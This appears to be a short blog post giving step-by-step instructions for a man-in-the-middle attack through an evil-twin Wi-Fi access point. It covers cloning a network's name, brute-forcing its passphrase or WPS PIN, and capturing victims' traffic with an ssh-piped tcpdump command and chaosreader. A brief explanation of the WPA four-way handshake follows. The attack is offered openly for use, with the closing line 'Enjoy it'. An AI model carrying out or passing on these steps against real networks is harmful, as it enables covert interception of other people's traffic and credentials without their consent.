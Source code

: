 ```yaml
---
layout: post
published: true
title: Security-MITM-attack-via-Evil-twin-AP
---
```

## Setup a evil twin AP with same Password

### Prepare

- A router with OpenWRT (If you want to try on your laptop, try aircrack-ng also)
- Desktop for auditing

### Quick Start

- Setup the AP and bridge client to connect the orignal twin AP
- Name the AP with same ESSID, you don't need to change BSSID because it's designed with same
- Ask or Try to brute-force crack the passphrase of orignal AP (for WEP, you can also try to capture packets to decrypt, for WPS enabled router, you can attack it by cracking the PIN code)
- Setup the Evil AP with the same passphrase

After this, you can wait until someone (maybe your own mobile phone) connect to your AP without any manual configuration. That's the beauty of SSID system.

- Install tcpdump on the router
- Install chaosreader on your desktop

On desktop, redirect the tcpdump output into local file.

`ssh user@ROUTER_IP "tcpdump -s 0 -U -w - -i ra0 not port 22 and not host DESKTOP_IP" > /tmp/all.cap`

and then `mkdir /tmp/chaos && cd /tmp/chaos && chaosreader /tmp/all.cap`

this will extract all the traffic which are in plaintext and then create a index.html in current folder, open the index.html, you will see a report with images and HTTP requests. Enjoy it.

### Difficulties

- WPA is resisting MITM through four handshakes

Both sides computing a shared pseudorandom generated from two nonce and PMK using PBKDF2-SHA1, without revealing the PMK.


PTK =
PseudoRandom( PSK / PMK in EAP, 
                            AP a_nonce,
                            STA s_nonce,
                            AP MAC_address,
                            STA MAC_address)

Private secret: PSK / PMK in EAP
Public values: AP nonce, STA nonce, AP MAC address, STA MAC address
Shared secret: PTK


- Https Spoofing is not included in this tiral, because it's kind of tricky when you have to use a illegal certificate or have to attack TLS protocol from basis, will mention it next time.
